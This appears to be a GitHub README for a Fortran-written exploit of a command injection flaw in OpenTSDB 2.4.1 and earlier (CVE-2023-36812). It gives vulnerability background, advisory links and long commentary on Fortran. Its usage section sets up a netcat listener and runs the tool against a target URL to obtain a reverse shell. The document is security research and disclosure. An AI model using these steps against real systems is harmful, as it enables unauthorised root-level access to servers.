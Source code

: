 # opentsdb_key_cmd_injection
An exploit for OpenTSDB <= 2.4.1 cmd injection (CVE-2023-36812/CVE-2023-25826) written in Fortran
# About
This is an exploit for a command injection vulnerability in OpenTSDB verions 2.4.1 and prior (CVE-2023-36812/CVE-2023-25826). The exploit is written in modern Fortran and leverages the official Fortran [http-client library](https://github.com/fortran-lang/http-client) that was created earlier this year.

# Vulnerability details
OpenTSDB is an open-source time series database written in Java. In 2020, a command injection vulnerability was discovered in versions 2.4.0 and prior that could be exploited in order to gain remote code execution on the host with root privileges. Since OpenTSDB does not support authentication, this vulnerability, tracked as CVE-2020-35476, could be exploited by anyone with access to the OpenTSDB web interface. The issue was patched in version 2.4.1

This year it was discovered that the patch for CVE-2020-35476 was incomplete, and command injection is still possible in OpenTSDB 2.4.1 via several vectors.

Details:
- Tracked as: [CVE-2023-36812](https://nvd.nist.gov/vuln/detail/CVE-2023-36812). It is worth nothing that [CVE-2023-25826](https://nvd.nist.gov/vuln/detail/CVE-2023-25826) actually seems to describe the same vulnerability, and both CVEs link to the exact same patch.
- Security advisory: https://github.com/OpenTSDB/opentsdb/security/advisories/GHSA-76f7-9v52-v2fw
- Credit: Gal Goldstein and Daniel Abeles of Oxeye
- Patch: The patch will be introduced in 2.4.2, which is not an official release yet. At the time of writing, the most recent OpenTSDB [release](https://github.com/OpenTSDB/opentsdb/releases) is 2.4.1, so it is likely that most OpenTSDB instances in production are vulnerable. That being said, the OpenTSDB [FAQ](http://opentsdb.net/faq.html) emphasizes that this project "was written for internal use only", and "hasn't been through any security review and does not included authentication."

# Why Fortran?
The short version is that I saw this convo:

The idea of writing an exploit in [the programming language used to put people on the moon](https://www.linux.com/news/how-they-built-it-software-apollo-11/) intruiged me so much that I had to explore it myself. This exploit is the result of that experiment. To the question whether it was successful, I can respond only with these wise, yet cursed words that bind all devs in blood: It works on my machine. ¯\\_(ツ)_/¯

In any case, my key takeaways from this project are:
- Fortran is actually pretty cool, and suprisingly easy to learn.
- The modern Fortran ecosystem, including the [fpm](https://github.com/fortran-lang/fpm) package manager, shows great promise.
- Fortran is a strongly typed language, and I found that to be a good thing, because I encountered few nasty run-time errors.
- Fortran projects with dependencies are large because fpm includes the dependency source code directly into your project. The benefit is that it avoids system pollution.
- Library support is relatively limited and chaotic compared to modern languages. Unfortunately this does not just affect the http-client library.
- Unsurprisingly, good documentation and troubleshooting tips are harder to come by than for most modern programming languages, though there are still quite a few useful posts on StackOverflow and long-forgotten forums from the early 2000s.
- AI tools like ChatGPT and GithHub Copilot make for even less reliable coding buddies than is the case for modern languages.

All in all, it is not easy to imagine this language really gaining significance within offensive security, if only because there are so many solid, modern alternatives out there for any imaginable use case (Python, Go, Rust, Ruby, C# to name just a few). But if you like experimenting with different programming languages and don't mind encapsulating your strings in `trim()` calls all the time (PLEASE TAKE NOTE OF THIS IT WILL SAVE YOU SO MUCH SUFFERING), Fortran is absolutely worth checking out. I'm unironically rooting for this language now and I might revisit it if they continue to add support to the http-client library, especially if they add an http-server library at some point.

TL;DR: Fortran http-client lib goes brr.

# Usage
- Start a listener on your system, eg:
```
nc -nlvp 1337
```
- In a separate window, nagivate to the `opentsdb_key_cmd_injection` directory
```
# cd /path/to/opentsdb_key_cmd_injection/
```
- Run the project via `fpm` (make sure to install it first. See the installation instructions in the next section)
```
# /path/to/fpm run -- -t <target_url> -l <lhost> -p <lport> [-v]
```
Options:
- `-t` - TARGET URL: the base URL to OpenTSDB (required)
- `-l` - LHOST: the IP of the system where you are running a listener (required)
- `-p` - LPORT: the listener port (required)
- `-v` - VERBOSE: enable verbose printing (optional)

# Installation
- Install `gfortran`. On debian-based systems this can be done via:
```
apt install gfortran
```
- Install fpm. The easiest way to do this is to download a binary for the latest stable release from the fpm [releases](https://github.com/fortran-lang/fpm/releases/latest) on GitHub and then make it executable:
```
chmod +x /<path>/to/fpm
```
Make sure you have `git` installed on your system before installing `fpm`.

# Poc || GTFO
https://github.com/ErikWynter/opentsdb_key_cmd_injection/assets/55885619/81375ad1-796a-4e52-931e-b5b9c6148a33

# A brief history of Fortran (because why not)
Fortran is mostly known as an archaic language that played an important role in the history of modern computing, but can no longer be considered relevant today. It was first released in 1957, predating both the ARPANET and Unix by more than a decade. Based on [this time-series data video](https://www.youtube.com/watch?v=qQXXI5QFUfw) it was the dominant programming language throughout the 1960s and 1970s, and remained among the 10 most popular languages until the late 1990s. But by the time Windows 98 was released, it had clearly fallen out of fashion, in favor of more modern languagues like C, C++, Java and JavaScript, all of which are still widely used today.

Apart from the brave souls who manage legacy systems, I doubt that many people in IT (let alone outside of our bubble), have come across Fortran in the last two decades, or are even aware that it's still around. Despite that, Fortran remains under active development. As stated on the [offical Fortran website](https://fortran-lang.org/), the language was last revised in 2018, and we will hopefully see another revision this year (2023). In fact, it seems the Fortran community has been very active in the last few years, pushing out several major projects to help modernize the ecosystem, including:
- [stdlib](https://github.com/fortran-lang/): the first-ever Fortran standard library (first release: 2021)
- [fpm](https://github.com/fortran-lang/fpm): a modern package manager and build system called fpm (first alpha release: 2020)
- [http-client](https://github.com/fortran-lang/http-client): the previously referenced HTTP client library (first release: 2023).

Given this, it appears the maintainers are aiming for somewhat of a Fortran comeback, or at the very least to give the language a fighting chance to survive for a few more decades. While even the most fanatic Fortran stan probably doesn't expect to see the language crack the top 10 of most popular programming languages ever again, the ongoing modernization of the language and its ecosystem has likely made Fortran more relevant than it has been in the last decade or two.
